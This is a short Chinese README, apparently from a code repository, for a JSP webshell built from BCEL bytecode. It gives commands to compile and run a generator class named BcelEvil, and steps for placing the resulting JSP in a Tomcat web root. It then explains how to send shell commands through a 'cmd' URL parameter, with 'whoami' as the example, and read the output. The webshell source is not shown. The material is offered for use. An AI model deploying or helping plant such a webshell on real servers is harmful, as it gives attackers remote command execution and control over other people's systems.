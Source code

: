 ### BCEL字节码的JSP WebShell

生成BCEL字节码：
```
javac BcelEvil.class
java BcelEvil
```

使用：
```
1.把jsp文件放到能被解析的服务器目录，例：tomcat的webapps/ROOT

2.在浏览器访问1.jsp，并使用参数cmd传入需要远程执行的命令，例：http://127.0.0.1:8080/1.jsp?cmd=whoami

3.服务器将会执行相应的shell命令，最后回显
```